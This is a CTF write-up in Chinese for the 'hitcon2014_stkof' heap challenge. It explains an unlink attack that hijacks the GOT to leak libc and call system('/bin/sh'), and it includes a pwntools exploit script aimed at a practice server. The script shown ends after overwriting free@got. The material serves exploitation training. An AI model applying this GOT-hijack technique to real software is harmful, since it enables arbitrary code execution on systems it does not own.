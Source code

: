 # buu067-hitcon2014_stkof
简单分析发现程序中开了一个很大的数组在bss段中，可以申请很多很多堆块，然后在bss段保存它们的地址。这道题不能打印有效信息，但能够产生任意长度的堆溢出，因此考虑利用方式：unlink。
利用方式请见：[我的unlink笔记](https://blog.csdn.net/qq_54218833/article/details/123407435)

经过调试发现，unlink可以进行。
![](https://img-blog.csdnimg.cn/d4049362435a49c68b86abb51689f02d.png)
我们可以在此之后将bss段中的地址改成got表地址，然后将got表中free函数的地址改写为printf的plt地址，这样我们就可以实现任意地址读了。读取到libc地址然后将free.got改为system地址，释放一个存有'/bin/sh'的chunk即可。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27603)
elf = ELF('./pwn')

chunks = 0x602140

def add_chunk(size):
    io.sendline(b'1')
    io.sendline(str(size).encode())

def write_chunk(index, size, content):
    io.sendline(b'2')
    io.sendline(str(index).encode())
    io.sendline(str(size).encode())
    io.send(content)

def delete_chunk(index):
    io.sendline(b'3')
    io.sendline(str(index).encode())

def feedback(index):
    io.sendline(b'4')
    io.sendline(str(index).encode())

add_chunk(0x80) # chunk 0
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 1
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 2
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 3
io.recvuntil(b'OK\n')
add_chunk(0x80) # chunk 4
io.recvuntil(b'OK\n')
payload = p64(0x10)
payload += p64(0x81)
payload += p64(chunks + 8*2 - 0x18)
payload += p64(chunks + 8*2 - 0x10)
payload += cyclic(0x60)
payload += p64(0x80)
payload += p64(0x90)
write_chunk(2, 0x90, payload)
io.recvuntil(b'OK\n')
delete_chunk(3)
io.recvuntil(b'OK\n')
write_chunk(2, 0x10, p64(0) + p64(elf.got['free']))
io.recvuntil(b'OK\n')
write_chunk(0, 0x8, p64(elf.plt['printf']))
io.recvuntil(b'OK\n')
```
